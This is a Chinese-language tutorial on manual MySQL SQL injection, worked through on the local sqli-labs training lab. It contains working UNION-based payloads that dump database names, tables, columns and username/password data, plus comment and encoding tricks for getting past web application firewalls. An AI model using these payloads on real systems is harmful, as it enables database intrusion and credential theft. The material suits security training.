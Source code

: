 # 0x00 简介

在MySQL里面注入和搭建环境来其实差不多，推荐使用sqli-labs来练练手，网上一堆的方法也是我们从学以来用到的

加引号 报错 `and 1=1` `and 1=2` 然后SQLmap 一丢有waf就凉凉，可能and的时候就凉了，所以手工是也算个必修课吧。

直接用 `and 1=1`  一类的多属于 数字型注入 `select * from admin where id = $id;` 被包裹起来的就不行的，所以
一般要看报错的语句，当然也不是加个引号没报错就没了，具体分很多情况的。（废话多了点顺便讲清楚吧）




# 0x01 第一个注入

and 是一个逻辑符号 要求两边同时成立,所以and 这边是什么可以尽情发挥大家的才能 比如 and true=1 ？，为什么要这么写，因为某狗判断的就是 and 这边的字符类型
大家可以去了解了解 MySQL隐式转化。

```
mysql> select * from users where id = "1" and 1=1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where id = "1" and 1=2;
Empty set (0.00 sec)

```

说了这么多我们就拿sqli-labs的第一关来演示一下

![mysql](./img/1.6.1.png)

看到报错语句

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

```


其中`''1'' LIMIT 0,1'` 最外层的是它出错给你的字符串不用看，所以为`'1'' LIMIT 0,1` 应为我们的单引号没闭合所以造成了出错 同时知道了 它的后面有个 `LIMIT 0,1` 所以反推大概的语句为 `select x,x from xxx where x='id' limit 0,1` 看到报错信息我们应该要能反推它的语句，有利于我们进一步注入，下面使用联合注入。


首先都是老套路 `order by xx ` 来判断它的列数，因为 `order by` 是根据列来排序的 （排序第几列）


```
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,schema_name,3 from information_schema.schemata limit 2,1 -- +

```

通过limit 0,1来控制前端的显位的数据(从第0条取一条) 如果是过滤逗号 。 想用分页可以使用 `1 offset 1` 意思是从第1条开始选一条当然还有join分页这些都在后面讲了。


```
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' -- +
```

当然你想直接爆当前的库的表 不妨这样写 `table_schema=database()` 为了避免单引号你也可以使用hex后的数据 `table_schema=0x7365637572697479`

使用`group_concat()` 函数把表名都聚合起来，更加方便。


```
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273 -- +
```

爆出字段

```
http://127.0.0.1/sqli/Less-1/?id=-2' union select 1,group_concat(username,0x7C,password),3 from users-- +

```

爆出数据 在 `group_concat()` 被过滤的情况下我们可以使用其他的来替换 推荐大家查阅mysql 函数表


当我们使用 `information_schema.schemata` 时被拦截了,我们可以这样绕过

``` 

`information_schema`.`schemata `  
information_schema/**/.schemata
information_schema/*!*/.schemata
information_schema%0a.schemata

```

也有人遇到过这种情况 users表被拦截 怎么绕过呢，其实也一样

```
security.users 数据库名 加表名

security.`users`

```



# 0x02 文末

#### 本文如有错误，请及时提醒，避免误导他人

* author：404
